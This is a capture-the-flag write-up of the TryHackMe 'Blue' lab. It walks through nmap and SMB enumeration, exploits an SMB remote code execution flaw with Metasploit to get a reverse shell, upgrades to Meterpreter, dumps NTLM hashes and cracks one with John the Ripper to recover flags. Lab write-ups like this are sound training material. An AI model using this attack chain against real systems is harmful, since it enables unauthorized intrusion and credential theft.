# Blue - Enumeration & Exploitation

## Machine Information

- Target Machine: `Blue`
- Platform: TryHackMe
- Connected to the target environment using the TryHackMe OpenVPN configuration.



---

## Initial Nmap Scan

```bash
sudo nmap <TARGET-IP> -sC -sV -T4
```

- Performed an initial service enumeration scan against the target system.
- Identified SMB services running on the target machine.
- Collected service versions and default script scan results for further analysis.



---

## SMB NSE Script Enumeration

```bash
sudo ls -la /usr/share/nmap/scripts/ | grep -e smb
```

- Enumerated available SMB-related NSE scripts included with Nmap.
- Identified useful scripts that could be used to check for SMB vulnerabilities.



---

## Vulnerability Discovery

- Executed SMB vulnerability detection scripts against the target system.
- Confirmed the target was vulnerable to a known SMB Remote Code Execution vulnerability.



---

## Exploit Research

```bash
msfconsole
```

- Researched publicly available exploits related to the identified SMB vulnerability.
- Located a compatible exploit module within the Metasploit Framework.



---

## Exploit Configuration

```bash
show options
```

```bash
set RHOSTS <TARGET-IP>
set LHOST <TRYHACKME-VPN-IP>
```

- Configured the exploit module with the target IP address.
- Set the local host to the TryHackMe VPN IP address to receive the reverse connection.



---

## Initial Shell Access

```bash
run
```

- Executed the exploit successfully.
- Obtained a remote shell on the target Windows machine.



---

## Upgrading to Meterpreter

```bash
search shell_to_meterpreter
```

- Searched for the shell upgrade module inside Metasploit.
- Upgraded the standard shell to a Meterpreter session for advanced post-exploitation functionality.



---

## System Enumeration

```bash
sysinfo
```

```bash
shell
```

- Gathered operating system information using Meterpreter.
- Spawned a Windows command shell for additional enumeration.



---

## Process Migration Attempts

```bash
migrate 3016
```

```bash
migrate 3044
```

- Attempted to migrate the Meterpreter session into different running processes.
- Migration attempts were denied due to insufficient permissions.



---

## Password Hash Dumping

```bash
hashdump
```

- Dumped local Windows password hashes from the target system.
- Identified multiple user accounts and their NTLM password hashes.



---

## Preparing Hashes for Cracking

- Identified the user account `Jon`.
- Saved Jon's NTLM hash into a file named:

```text
hashes.txt
```

- Prepared the hash for offline password cracking.



---

## Password Cracking

```bash
sudo john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

- Used John the Ripper to crack the NTLM password hash.
- Successfully recovered the plaintext password associated with the user account.



---

## Flag 1 Discovery

```cmd
cd C:\
dir
```

- Enumerated the root of the C drive.
- Located and retrieved the first flag.



---

## Flag 3 Discovery

```cmd
cd C:\Users\Jon\Documents
dir
```

- Navigated to Jon's Documents directory.
- Located and retrieved the third flag.



---

## Searching for Flag 2

```bash
search -f flag2.txt
```

- Used Meterpreter's search functionality to locate the second flag.
- Retrieved the full file path of the target file.



---

## Flag 2 Discovery

- Navigated to the discovered location.
- Retrieved the second flag successfully.


